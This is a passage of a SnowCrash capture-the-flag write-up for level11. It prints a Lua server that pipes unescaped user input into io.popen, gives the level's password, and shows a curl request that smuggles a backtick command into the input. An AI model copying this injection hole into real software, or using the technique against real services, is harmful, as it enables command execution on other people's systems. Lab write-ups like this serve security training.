 `su level11 -> feulo4b72j7edeahuete3no7c`

We have a lua script:

```bash
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Try to decode the hash and we get `NotSoEasy` so I think it's not this.

Try to inject a command in `io.popen`:

```bash
level11@SnowCrash:~$ curl -H "Password: `getflag > /tmp/flag`" 127.0.0.1:5151/
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : 
Nope there is no token here for you sorry. Try again :)
```
